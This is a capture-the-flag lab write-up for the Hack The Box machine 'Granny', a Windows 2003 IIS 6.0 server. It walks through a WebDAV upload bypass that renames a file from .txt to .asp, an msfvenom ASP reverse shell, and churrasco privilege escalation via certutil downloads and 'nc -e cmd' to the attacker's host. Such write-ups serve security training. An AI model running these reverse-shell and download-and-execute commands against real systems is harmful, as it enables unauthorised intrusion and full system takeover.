 ```yaml
---
title: Granny
tags: windows
---
```


![image](assets/79370331-795c6200-7f20-11ea-894b-9e65b9ef47a0.png)

## Overview
Granny is a Windows 2003 box running IIS 6.0 and webdav. Webdav allowed anonymous uploads but required a bypass to upload an asp reverse shell. Once the shell was uploaded I got initial foothold by executing the uploaded file. I used an exploit called churrasco to call back to my machine with a shell as 'nt authority\system'

## Enumeration

**Software**
* Microsoft(R) Windows(R) Server 2003, Standard Edition
* Front Page Version - 5.0.2.6790

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.15 -oN /mnt/data/boxes/granny/_full_tcp_nmap.txt
```
* 80/tcp - http

![image](assets/81867727-2eddfd80-953f-11ea-873a-b303b6b95bed.png)

**DavTest**

```
davtest -url http://10.10.10.15
```

![image](assets/81869423-0572a100-9542-11ea-95a2-c5f649b668a9.png)

## Steps (user)

Browsing to http://10.10.10.15 showed the default "Under Contruction" page and no other useful information. 

According to the nmap scan this server was running webdav so I ran a scan with [davtest](https://github.com/cldrn/davtest) which  tests uploading different executable file types. There were quite a few different files that could be uploaded and only html and txt could be executed.

I connected to the server using a webdav client called cadaver. After running the help command I learned that the command "MOVE" was available. Using MOVE I was able to get around the restrictons by uploading a file with a .txt extension and renaming it to asp.


I created an asp reverse shell with msfvenom and output it to rshell.txt and started a netcat listener (rlwrap nc -lvnp 4200).

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.24 lport=4200 -f asp > rshell.txt
```

I then connected to webdav via cadaver and uploaded rshell.txt 

```
cadaver 10.10.10.15
put rshell.txt
```

![image](assets/81870929-de699e80-9544-11ea-8de6-b643cc9fe7af.png)

With the file uploaded, I used 'move' to rename the file from rshell.txt to rshell.asp

```
move rshell.txt rshell.asp
```

![image](assets/81871996-e75b6f80-9546-11ea-89e8-a2868a23e9ad.png)

I browsed to http://10.10.10.15/rshell.asp and received a shell as 'nt authority\network service'

![image](assets/81871200-559f3280-9545-11ea-876f-21b5cdb1355d.png)

## Steps (root/system)

The systeminfo command showed that only one hotfix was installed. I used a tool called Windows Exploit Suggester to identify which exploits the box was vulnerable to. The tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/81871704-5a181b00-9546-11ea-91ef-257cabe4bb2c.png)

After not having any much luck with the windows-exploit suggester results, I tried an exploit called churrasco.

> Additional info about [churrasco](https://www.exploit-db.com/exploits/6705)

First I downloaded the exploit from Re4son's github repo

```
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

In prepration to use the exploit to create a reverse shell with netcat, I copied the nc.exe binary to my working directory.

```
cp ~/tools/windows-binaries/nc.exe .
```

I started a reverse listener (nc -lvnp 42301) and started a python http server

```
python3 -m http.server 80
```

I downloaded the netcat and the exploit to the local box

```
certutil -urlcache -split -f http://10.10.14.24/nc.exe
certutil -urlcache -split -f http://10.10.14.24/churrasco.exe
```

The exploit was run, specifying the netcat command with my box's IP/port resulting in a shell as 'nt authority\system'

```
churrasco.exe "nc -e cmd 10.10.14.24 4201"
```

![image](assets/81998378-5953b780-9620-11ea-8bdc-e0ad87bceefa.png)

